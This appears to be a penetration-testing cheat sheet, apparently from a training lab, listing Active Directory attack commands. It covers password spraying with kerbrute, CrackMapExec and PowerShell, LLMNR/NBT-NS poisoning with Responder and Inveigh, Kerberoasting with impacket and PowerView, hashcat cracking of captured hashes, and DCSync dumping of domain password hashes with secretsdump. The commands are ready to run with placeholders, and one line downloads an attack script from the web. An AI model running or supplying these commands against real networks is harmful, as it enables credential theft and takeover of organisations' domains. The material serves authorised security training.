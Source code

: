 # Password spray
### Kerbrute password spray
``` bash
kerbrute passwordspray -d <DOMAIN> --dc <IP> valid_users.txt  <PASSWD>
```
### CrackMapExec - Passwd Spray
``` bash
sudo crackmapexec smb <IP> -u valid_users.txt -p <PASSWD> | grep +
#After getting hits with opur attack, validate creds againts DC
sudo crackmapexec smb <IP> -u <USERNAME> -p <PASSWD>
```
### Internal password Spray - Linux
``` bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%<PASSWD>" -c "getusername;quit" <IP> | grep Authority; done
```
### Internall Password Spray - Win
``` powershell
#https://github.com/dafthack/DomainPasswordSpray
#Download with powershell: Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1" -OutFile "DomainPasswordSpray.ps1"
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
# LLMNR/NBT-NS Poisoning
Man-in-the-middle that captures usernames and password hashes in network
### LLMNR/NBT-NS Poisoning - Linux
```bash
#Kali
#generates report to /usr/share/responder/logs
sudo responder -I <IP> -A
#cannot be used with pass-the-hash so need to crack hashes offline
#crack hashes with hashcat in 5600 mode
hashcat -m 5600 <hash> /usr/share/wordlists/rockyou.txt
#IF HASHCAT FAILS RUN FOLLOWING CMD TO CLEAN THE HASH:
#cat hash.txt | tr -d '\n\r\t ' > cleaned_hash.txt
```
### LLMNR/NBT-NS Poisoning - Windows
``` powershell
#using inveigh.exe https://github.com/Kevin-Robertson/Inveigh
.\inveigh.exe
#after succesfull capture show options:
#HELP
#Get NTLM2Unique usernames and hashes:
GET NTLMV2UNIQUE
```
# Kerberoasting
Get SPN tickets and crack offline
### Kerberoasting with GetUserSPNs.py (From Attack machine)
``` bash
#Requires username and password of domain user
#List SPN Accounts with GetUserSPNs.py
impacket-GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<USERNAME>
#Get all TGS Tickets
impacket-GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<USERNAME> -request
#Get single accounts TGS ticket and write to file for offline cracking
impacket-GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<USERNAME> -request-user <ACCOUNT_NAME> 
-outputfile <OUTPUT_FILE>
#Crack with hashcat mode 13100
hashcat -m 13100 <HASH_FILE> /usr/share/wordlists/rockyou.txt 
#after succesfull crack, test authentication against DC
sudo crackmapexec smb <DC-IP> -u <USERNAME> -p <PASSWD>
```
### Kerberoasting with powerview (TARGET MACHINE) 
``` powershell
#https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/README.md
#Import module
Import-Module .\PowerView.ps1
#Get accounts and SPNs
Get-DomainUser * -spn | select samaccountname, serviceprincipalname
#Get hashes from specific account
Get-DomainUser -Identity <ACCOUNT> | Get-DomainSPNTicket -Format Hashcat
#(optional) or just get all the hashes from all accounts and export to CSV file
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
#if needed fix hash format:
#cat hash.txt | tr -d '\n' | tr -d ' ' > fixed-hash.txt or jusr get the csv which is in correct format
#Crack with hashcat mode 13100
hashcat -m 13100 <HASH_FILE> /usr/share/wordlists/rockyou.txt 
#after succesfull crack, test authentication against DC
sudo crackmapexec smb <DC-IP> -u <USERNAME> -p <PASSWD>
#the we can use PSCredential Object for movement (Check Lateral Movement tab)
```
# DCSync
Steal AD password Db by using the built-in `Directory Replication Service Remote Protocol`. Requires user with DCSync Privileges
``` bash
#Kali
#Extract NTLM Hashes and Kerberos Keys Using secrets
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc <DOMAIN>/<USERNAME>@<IP> 
# You can Check user that has this option enabled. DCSync will provide these creds in cleartext (optional?) Powershell:
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
